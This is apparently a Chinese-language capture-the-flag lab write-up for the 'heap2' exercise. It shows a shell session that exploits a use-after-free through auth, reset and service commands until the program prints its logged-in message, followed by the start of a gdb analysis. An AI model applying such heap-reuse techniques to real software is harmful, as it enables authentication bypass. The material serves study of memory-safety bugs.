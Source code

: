 

## 攻击目标

使程序打印`you have logged in already!`。



## 攻击过程

```shell
# UFA方法
$ ./heap2
[ auth = (nil), service = (nil) ]
auth alice
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service 111
[ auth = 0x804c008, service = 0x804c008 ]
service 222
[ auth = 0x804c008, service = 0x804c018 ]
service 333
[ auth = 0x804c008, service = 0x804c028 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c028 ]
```

<img src=".\heap2-result.png" style="zoom:67%;" />



## 原理分析

### 方法一：UFA

分析源码可知，如果程序正常运行，则源码从未修改`auth->auth`，程序不会输出`you have logged in already!`。

```shell
(gdb) r
[ auth = (nil), service = (nil) ]
auth alice
[ auth = 0x804c008, service = (nil) ]
^C
```
